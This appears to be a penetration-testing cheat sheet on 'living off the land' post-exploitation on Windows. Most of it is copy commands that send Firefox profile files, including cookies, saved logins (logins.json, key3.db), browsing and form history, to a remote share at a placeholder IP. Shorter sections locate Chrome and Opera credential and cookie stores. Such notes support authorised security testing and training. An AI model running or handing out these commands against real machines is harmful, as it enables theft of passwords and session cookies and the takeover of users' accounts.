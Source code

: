 # Living off the Land

## 01 - Command Prompt

### 1.1 - Firefox Profiles

Copy all SQLite files.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles*.sqlite \\<IP>\<share_name>\

C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.sqlite \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.db \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.json \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.dat \\<IP>\<share_name>\
```

The database files contains bookmarks, downloads and browsing history, site-specific preferences (permissions), autocomplete history, and cookies.

```
C:\> copy %appdata%\Mozilla\Firefox\Profiles\places.sqlite \\<IP>\<share_name>\

copy %appdata%\Mozilla\Firefox\Profiles\permissions.sqlite \\<IP>\<share_name>\

copy %appdata%\Mozilla\Firefox\Profiles\formhistory.sqlite \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\cookies.sqlite \\<IP>\<share_name>\
```

Contains saved passwords.

```
C:\> copy %appdata%\Mozilla\Firefox\Profiles\key3.db \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\logins.json \\<IP>\<share_name>\
```

Security certificate settings.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\cert8.db \\<IP>\<share_name>\
```

Search engines.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\search.json.mozlz4 \\<IP>\<share_name>\
```

Personal dictionary.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\persdict.dat \\<IP>\<share_name>\
```

### 1.2 - Google Chrome

TODO: Fill this information

Contains encrypted SQLite files that stores the credentials.

```
C:\> dir %appdata%\Local Settings\Application Data\Google\Chrome\User Data\Default\Web Data\*.sqlite
```

### 1.3 - Opera

```
C:\> dir %APPDATA%\Application Data\Opera\Opera\profile\wand.dat
```

## 02 - PowerShell

```
PS C:\> '$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Cookies' | Get-Item
```

---
## References

- [Retrieving Data From Thunderbird and Firefox](https://thevivi.net/blog/pentesting/2020-09-06-retrieving-data-from-thunderbird-and-firefox/)

- [FareedFauzi Resources Windows Post Exploitation](https://fareedfauzi.gitbook.io/oscp-notes/windows-post-exploitation/resources-windows-post-exploitation)

- [Mango PDF Zone Stealing Chrome Cookies Without a Password](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password)